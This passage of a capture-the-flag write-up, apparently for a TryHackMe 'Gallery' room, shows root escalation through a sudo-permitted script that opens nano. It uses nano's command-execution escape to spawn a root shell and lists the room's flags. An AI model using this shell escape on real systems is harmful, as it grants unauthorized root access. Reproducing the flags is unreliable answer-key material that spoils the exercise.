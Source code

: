 ```bash
mike@gallery:/var/backups/mike_home_backup$ sudo /bin/bash /opt/rootkit.sh

Would you like to versioncheck, update, list or read the report ? 
```

Let's check what the rootkit is doing:

```bash
www-data@gallery:/var/backups/mike_home_backup$ cat /opt/rootkit.sh

#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

if we do `read` we can open a file in `/root`. Let's check if we can do something with `nano`. From [2], we see we can try to break out of the restricted environment, so let's try:

```bash
mike@gallery:/var/backups/mike_home_backup$ sudo /bin/bash /opt/rootkit.sh

Would you like to versioncheck, update, list or read the report ? read

^R^X
reset; sh 1>&0 2>&0
```

And then:

```bash
# whoami

root
```

Let's get the final flag:

```bash
# cat /root/root.txt

THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

## Flag

1. `2`

2. `Simple Image Gallery`

3. `a228b12a08b6527e7978cbe5d914531c`

4. `THM{af05cd30bfed67849befd546ef}`

5. `THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}`


